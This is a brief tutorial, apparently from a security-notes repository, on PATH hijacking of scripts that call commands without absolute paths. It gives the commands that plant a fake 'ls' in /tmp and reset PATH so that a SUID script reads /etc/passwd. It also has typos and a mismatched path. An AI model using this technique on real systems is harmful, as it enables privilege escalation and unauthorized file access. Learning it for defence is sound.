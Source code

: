 # Relative path to run binary

### Table of Contents

- [Command without arguments](#command-without-arguments)

## Command without arguments

**Attention** if you want escalate privileges, the vulnerable script needs at least to have suid permission.

#### Documentation
- [SUID redhat](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit)<br>

#### Explanation
When a program refere to a binary command without giving the absolute path, you can execute your own program instead of the command.<br>
This program show below refer to this venurability:

```
#!/bin/bash

ls /ect/passwd
```

When bash interpret `ls`, he is trying to find the command located in the `env | grep PATH`.<br>
It try every directory, from letf to right, to check if the executable is located in. If it is, he execute it.
The tricks is to create a new file name "ls" write some code to execute at the emplacement /ect/passwd.
```
#write the command cat inside a ls file located in /tmp
echo cat > /tmp/ls
chmod +x /tmp/ls

#modifie the PATH, to get bash to find and execute your ls file instead of the real one.
PATH=/tmp
```

Now the previous script execute `cat /etc/passwd` instead of `ls /etc/passwd`.
